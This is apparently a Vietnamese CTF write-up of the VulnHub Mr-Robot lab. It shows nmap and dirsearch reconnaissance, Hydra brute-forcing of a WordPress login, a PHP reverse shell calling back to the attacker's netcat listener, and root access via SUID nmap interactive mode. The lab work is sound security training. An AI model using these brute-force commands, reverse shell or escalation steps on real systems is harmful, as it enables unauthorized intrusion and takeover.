




[VulnHub] Mr.Robot
Overview
Link download: MR-ROBOT: 1
Difficulty: Chả biết, nhưng chắc là dễ…
Information Gathering
Nmap
Lại là mấy cái lệnh cửa miệng với mấy bài boot2root trên Vulnhub… bla bla bla…
$ nmap -sn 10.10.10.101-105
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-03 10:25 +07
Nmap scan report for 10.10.10.101 (10.10.10.101)
Host is up (0.00011s latency).
Nmap scan report for 10.10.10.102
Host is up (0.00045s latency).
Nmap done: 5 IP addresses (2 hosts up) scanned in 1.26 seconds
$ nmap -p- 10.10.10.102 --min-rate 3000
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-03 10:26 +07
Nmap scan report for 10.10.10.102 (10.10.10.102)
Host is up (0.00020s latency).
Not shown: 65532 filtered ports
PORT STATE SERVICE
22/tcp closed ssh
80/tcp open http
443/tcp open https
Nmap done: 1 IP address (1 host up) scanned in 43.87 seconds
$ nmap -p 22,80,443 -sC -sV 10.10.10.102
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-03 10:28 +07
Nmap scan report for 10.10.10.102 (10.10.10.102)
Host is up (0.00060s latency).
PORT STATE SERVICE VERSION
22/tcp closed ssh
80/tcp open http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after: 2025-09-13T10:45:03
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.22 secondsVậy là bài này đang mở 3 cổng TCP là 22, 80, và 443. Mô hình chung là sẽ đánh vào một lỗi nào đó trên web server cổng 80/443 và cướp shell, leo quyền… chứ không lằng nhằng đến các service khác.

Okay, Dirsearch nó xem nào.
Dirsearch
Kết quả dưới đây đã lọc hết các response có status khác 200, cho dễ nhìn. Nếu vẫn còn khó nhìn, thì tôi khuyên bạn nên dành mấy phút nghỉ ngơi xem pỏn giải trí đi.
[10:29:58] Starting: cookies.js
[10:31:08] 200 - 1KB - /admin/
[10:31:08] 200 - 1KB - /admin/?/login
[10:31:10] 200 - 1KB - /admin/index
[10:31:10] 200 - 1KB - /admin/index.html
[10:32:26] 200 - 0B - /favicon.ico
[10:32:38] 200 - 1KB - /index.html
[10:32:41] 200 - 504KB - /intro
[10:32:47] 200 - 309B - /license
[10:32:47] 200 - 309B - /license.txt
[10:33:27] 200 - 64B - /readme
[10:33:27] 200 - 64B - /readme.html
[10:33:30] 200 - 41B - /robots.txt
[10:33:40] 200 - 0B - /sitemap
[10:33:40] 200 - 0B - /sitemap.xml
[10:33:40] 200 - 0B - /sitemap.xml.gzhttp://10.10.10.102/sugarcrm/?module=Accounts&action=ShowDuplicateshttp://10.10.10.102/sugarcrm/?module=Contacts&action=ShowDuplicates%20
[10:34:07] 200 - 1B - /wp-admin/admin-ajax.php
[10:34:07] 500 - 3KB - /wp-admin/setup-config.php
[10:34:07] 200 - 0B - /wp-config.php
[10:34:07] 200 - 0B - /wp-content/
[10:34:08] 500 - 0B - /wp-content/plugins/hello.php
[10:34:08] 200 - 0B - /wp-content/plugins/google-sitemap-generator/sitemap-core.php
[10:34:08] 200 - 0B - /wp-cron.php
[10:34:08] 200 - 3KB - /wp-login.php
[10:34:08] 200 - 3KB - /wp-login
[10:34:08] 200 - 3KB - /wp-login/Có thể thấy ngay web server này sử dụng nền tảng Wordpress để xây dựng nội dung.
Kệ bà nó cái đã, vòng qua một vòng cái đống này xem nào.
Có cái này hay ho…
http://10.10.10.102/robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txthttp://10.10.10.102/key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9Đây là một flag mà đề bài yêu cầu tìm, không liên quan gì đến việc khai thác lỗi của bài.
Và một file nữa (http://10.10.10.102/fsocity.dic), nhìn là biết đây là một wordlist, tác giả đang muốn chúng ta sử dụng nó để tấn công brute-force ở một phần nào đó trong bài.

Đúng rồi đấy :D chỉ còn ở đây chứ còn ở đâu nữa. Thật ra vẫn còn chỗ nữa để brute-force đấy là cổng 22-SSH, cơ mà nếu brute-force thành công và lấy được SSH shell thì bài này quá ez, chả cần phải lần mò và web server để đào bới vấn đề.
Theo cái lối suy nghĩ cổ hủ và bảo thủ ấy, tôi quyết định brute-force trang login của Wordpress.
Đầu tiên là mò username. Wordpress có một cái sự ngớ ngẩn khi thông báo Login không thành công. Khi login với username không tồn tại trong hệ thống, nó sẽ trổ luôn ra một câu Invalid user!. Dafuk? Và nếu username có tồn tại trong hệ thống, nhưng sai password, lúc này sẽ là một thông báo khác là Incorrect password.
Đây vừa có thể là một lỗi, vừa có thể là một tính năng. Cơ mà bây giờ để bảo mật, các trang login thường sẽ để một thông báo chung chung ví dụ như “Username hoặc password mày vừa nhập có vấn đề” hoặc ngắn gọn hơn là “Đăng nhập éo thành công!”. Còn như thằng Wordpress này ấy, cái lỗi ở đây khiến cho kẻ tấn công có thể dò tìm được username, và sau đó sẽ dò tiếp password tương ứng với username, sẽ đỡ thời gian brute-force hơn rất nhiều so với việc dò tìm cả 2 cái này cùng một lúc.
Trình bày dài dòng là như thế, giờ thì dò username thôi :))
Ném cái wordlist vừa tìm được vào option -L (List user) và option -p là duma (Mật khẩu tự chọn).
$ hydra -L fsocity.dic -p duma 10.10.10.102 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-03 10:49:37
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.10.102:80/wp-login.php:log=^USER^&pwd=^PASS^:Invalid
[80][http-post-form] host: 10.10.10.102 login: Elliot password: duma
[80][http-post-form] host: 10.10.10.102 login: elliot password: duma
[STATUS] 2090.00 tries/min, 2090 tries in 00:01h, 856145 to do in 06:50h, 16 activeThế là tóm được thằng user Elloit/elliot, do không phân biệt chữ hoa và chữ thường.
Tiếp theo là dò mật khẩu của thằng Elliot, lần này đợi hơi lâu nên tôi quyết định treo máy đấy và đi chơi game.
$ hydra -l elliot -P fsocity.dic 10.10.10.102 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-03 10:52:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.10.102:80/wp-login.php:log=^USER^&pwd=^PASS^:Incorrect
[80][http-post-form] host: 10.10.10.102 login: elliot password: ER28-0652Nghe ổn đấy, login vào xem nào.

Để ý thấy Elliot đang là admin của trang này, toẹt vời, điều đó có nghĩa là Elliot có thể sửa đổi mã nguồn của các page như 404, header, poster các thứ… Không cần đến Wpscan để quét, chèn một đoạn shell PHP vào bất kỳ page nào trong phần Editer, miễn là truy cập được là được.
$sock = fsockopen("10.10.10.101",4444);
$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);Mở listen netcat trên port 4444 và lấy shell :))
$ nc -klnvp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.102.
Ncat: Connection from 10.10.10.102:35666.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$ ls -al
total 16
drwxr-xr-x 2 root root 4096 Nov 13 2015 .
drwxr-xr-x 3 root root 4096 Nov 13 2015 ..
-r-------- 1 robot robot 33 Nov 13 2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13 2015 password.raw-md5
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13bÈn. Họ cho luôn mật khẩu hash của user robot này.

robot:abcdefghijklmnopqrstuvwxyz
Privileges Escalation
Lấy PTY rồi chuyển sang phiên của user robot.
robot@linux:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:106:ftp daemon,,,:/srv/ftp:/bin/false
bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:Nothing to do here. Tìm kiếm binary SUID xem sao.
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chownOay, có nmap kìa. Dễ rồi. (https://gtfobins.github.io/gtfobins/nmap/)
robot@linux:~$ ls -al /usr/local/bin/nmap
-rwsr-xr-x 1 root root 504736 Nov 13 2015 /usr/local/bin/nmap
robot@linux:~$ nmap --interactive
nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)SUID cho phép người dùng khác có thể chạy file với quyền của owner, trong trường hợp này là root.
Tại sao lại dùng !sh thay vì dùng !bash?
Lần đầu tôi cũng dùng !bash, kiểm tra thì thấy vẫn là user robot. Vậy là tôi bị mất thời gian để đi tìm kiếm những cách khác để leo root. Cơ mà sau một hồi google và để ý lại doc trên trang gtfobins, thấy cái này.
SUID
If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.
This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.
Đuỵt moẹ! lại là câu chuyện của sh và bash và dash, xem ra Linux vẫn còn rất nhiều thứ cơ bản mà tôi cứ nghĩ là mình biết rồi…